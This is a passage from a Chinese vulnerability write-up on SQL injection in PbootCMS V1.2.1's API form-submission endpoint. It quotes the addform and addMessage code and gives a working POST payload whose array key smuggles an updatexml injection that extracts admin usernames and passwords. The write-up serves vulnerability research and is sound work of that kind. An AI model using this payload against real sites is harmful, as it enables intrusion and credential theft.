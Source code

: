                // 写入数据
                if ($this->model->addMessage($value->table_name, $data)) {
                    $this->log('API提交表单数据成功！');
                    if ($this->config('message_send_mail') && $this->config('message_send_to')) {
                        $mail_subject = "【PbootCMS】您有新的表单数据，请注意查收！";
                        $mail_body .= '<br>来自网站' . get_http_url() . '（' . date('Y-m-d H:i:s') . '）';
                        sendmail($this->config(), $this->config('message_send_to'), $mail_subject, $mail_body);
                    }
                    json(1, '表单提交成功！');
                } else {
                    $this->log('API提交表单数据失败！');
                    json(0, '表单提交失败！');
                }
            } else {
                json(0, '表单提交失败，请使用POST方式提交！');
            }
        }

可以看到，整个逻辑下来的意思就是说，查询出数据库一条数据，然后接收外部
POST 内容，只匹配数据库的字段，相同才会拼接到 \$\_data数组

    然后就会带入 $this->model->addMessage(data) 执行语句

文件：PbootCMS-V1.2.1\\apps\\api\\model\\CmsModel.php 函数：addMessage(

    // 新增留言
        public function addMessage($table, $data)
        {
            return parent::table('ay_message')->autoTime()->insert($data);
        }

根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入

0x10.3 接口注入三
-----------------

### 0x10.3.1 漏洞利用

    url：http://127.0.0.1/cms/PbootCMS-V1.2.1/api.php/cms/addform?fcode=1
    post:
        contacts[content`) VALUES ( updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1) );-- a] = 111
        mobile = 111
        content = 123

![](/Users/aresx/Documents/VulWiki/.resource/PbootCMSsql注入/media/rId53.png)

0x10.3.2 漏洞讲解

    // 表单提交  注入
        public function addform()
        {
            if ($_POST) {
